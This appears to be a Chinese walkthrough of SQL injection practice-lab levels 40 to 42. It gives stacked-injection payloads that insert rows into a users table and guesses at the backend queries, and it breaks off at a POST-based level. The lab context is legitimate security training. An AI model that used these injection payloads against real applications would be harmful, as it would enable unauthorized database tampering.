 ```
?id=1');insert into users values(29,'b','b');%23
```

> `union`获取users表名就不写了，很简单



猜测后端sql语句：

```
select * from users where id=('前端传来的数据') limit 0,1;
```





#### 41.



此题和40题及其相似：只是此题没有`'`和`()`包裹数据。

> 所以此题使用union注入探查表结构。使用堆叠来插入数据





payload:

```
?id=1; insert into users values(32,'d','d')%23
```

> 使用union来探查表结构就不说了





猜测后端sql语句：

```
select * from users where id=前端传来的数据 limit 0,1;
```







#### 42.	post

此题为POST类型的堆叠注入。

> 通关条件为堆叠插入一条数据



此题注入点在密码。用户名不可注入，该过滤的都过滤掉了



先通过报错注入爆表名和字段名，再通过堆叠注入插入数据



payload:

> 爆表名，字段名
